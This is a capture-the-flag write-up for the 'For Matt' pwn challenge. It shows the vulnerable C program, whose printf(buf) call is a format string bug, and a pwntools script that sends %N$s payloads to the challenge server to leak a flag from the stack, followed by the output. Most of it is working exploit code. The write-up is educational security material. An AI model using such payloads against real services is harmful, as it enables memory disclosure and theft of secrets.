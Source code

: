 # For Matt

## Pwn

### I went to print something but there's a For Matt problem?  Maybe you can figure out where the flag is.

This is clearly a format string exploit without even looking at the code.

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;

  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("I'm testing a proof of concept.  You won't overflow the buffer.  This program will repeat whatever you input");

  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Where's the flag.txt file?\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);

  while(1) {
    printf(": ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }
  return 0;
}
```

The `printf(buf)` is the error.  It allows user input to be printed without a format specifier.

There are different types of format string exploits.  For this one, the flag is being put on the stack, so theoretically we can print down the stack until we get the flag.  This is the script I used.  It rolls down the stack, printing out a string and its position on the stack.

```python
from pwn import *
#elf = context.binary = ELF('./formatt', checksec=False)
#context.log_level = "DEBUG"

for i in range(50):
  try:
    p = remote('ctf.teractf.com', '2231')
    p.sendlineafter(b': ', '%{}$s'.format(i).encode())
    result = p.recvuntil(b': ')
    print(str(i) + ': ' + str(result))
    p.close()
  except EOFError:
    pass
```
This is the output with the flag!  :joy:

```sh
% python3 solver.py SILENT
0: b'%0$s\n: '
4: b'\n: '
5: b'(null)\n: '
6: b'\xe6\x7f\xfc\xf2\xff\x7f\n: '
10: b'teractf{1_m3ant_f0rmat_n0t_f0rMatt}\n\n: '
11: b'\x88$\xad\xfb\n: '
17: b'0t_f0rMatt}\n\n: '
19: b'(null)\n: '
25: b'(null)\n: '
26: b'(null)\n: '
27: b'\xf3\x0f\x1e\xfaUf\x0f\xef\xc0H\x89\xe5AWI\x89\xffAVAUATSH\x81\xec\x88\x02\n: '
28: b'@A\x9eg[U\n: '
30: b'0\x96\xd5\x8a\xfe\x7f\n: '
31: b'\x89\xc7\xe8\xcf\xd9\x01\n: '
32: b'\x88\xcd\xa4\xdcJV\n: '
33: b'\xe6/1$\xfe\x7f\n: '
35: b'\xf3\x0f\x1e\xfaUH\x89\xe5H\x81\xec\xc0\n: '
36: b'\xe6\x9f\x10\xb9\xfd\x7f\n: '
39: b'(null)\n: '
40: b'\xe0\xa1O\xe4}U\n: '
41: b'\xe0\xb2;|\xbf\x7f\n: '
45: b'(null)\n: '
46: b'(null)\n: '
48: b'\x01\n: '
```

**teractf{1_m3ant_f0rmat_n0t_f0rMatt}**
